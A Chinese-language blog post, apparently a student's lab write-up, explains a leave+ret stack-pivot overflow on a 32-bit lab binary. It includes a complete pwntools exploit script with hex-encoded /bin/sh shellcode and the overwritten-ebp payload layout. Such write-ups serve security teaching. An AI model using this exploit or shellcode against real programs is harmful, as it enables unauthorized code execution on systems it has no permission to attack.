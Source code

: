 ```yaml
---
title: leave + ret 栈溢出
date: 2024-04-08
categories: [UCAS_LESSION]
tags: [stackoverfolw,adv_vulun,pwn]     # TAG names should always be lowercase
---
```


# 0x01 why record
今天实验课上做了leave+ret栈溢出，课上没有做出来，课下想明白了，特此记录一下

# 0x02 原理分析
leave指令等将于这两条指令：
    mov esp, ebp
    pop ebp
即为
    esp = ebp + 4
    ebp = [ebp]
这里一直没想明白 因为没想到pop回导致esp+4(32位)

想明白这个就很容易了 esp = ebp + 4 => esp 指向了ret_addr的位置  
如果这里修改esp为shellcode的地址， 溢出就完成了

# 0x03 exp分析
```python
#!/usr/bin/env python
#coding=utf-8

from pwn import *
import sys
context.arch='i386'
context.log_level='debug'
context.terminal = ['tmux', 'split', '-h']

def sendPayload(p,payload,hFile):
    hFile.write(payload)
    hFile.flush()
    p.send(payload)

shellcode = bytes.fromhex('6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a3b5883e830cd8090')

def pwn01():
    fPayload=open("poc_ebp.txt","wb")
    p=process('./ebp_bin')
    p.settimeout(0.01)
    #gdb.attach(p)
    data_str1 = b'\x90\x90\x90\x90'+p32(0x80ECA08) + shellcode
    data_str = data_str1 + (0x117-len(data_str1))*b'A' + p32(0x80ECA00)+b'\n'
    sendPayload(p, data_str, fPayload)
    fPayload.close()
    p.interactive()

if __name__ == '__main__':
    pwn01()
```

重点是这里：
```python
data_str1 = b'\x90\x90\x90\x90'+p32(0x80ECA08) + shellcode
data_str = data_str1 + (0x117-len(data_str1))*b'A' + p32(0x80ECA00)+b'\n'
```
p32(0x80ECA00)用来覆盖ebp。因为leave指令，需要保证覆盖地址有效，且该地址+4是一个有效的返回地址。


即0x80ECA04为有效的地址，[0x80ECA04] = 0x80ECA08 正好是 shellcode的起始地址
原理不难 动态调一遍就行啦
![picture 0](/images/dae4ce81c69cbb0f35adeb14f211d5f50405d85bd966f5ea90164f38e06dbbe2.png)  

# 0x04 结束
时间不早了 洗洗睡了
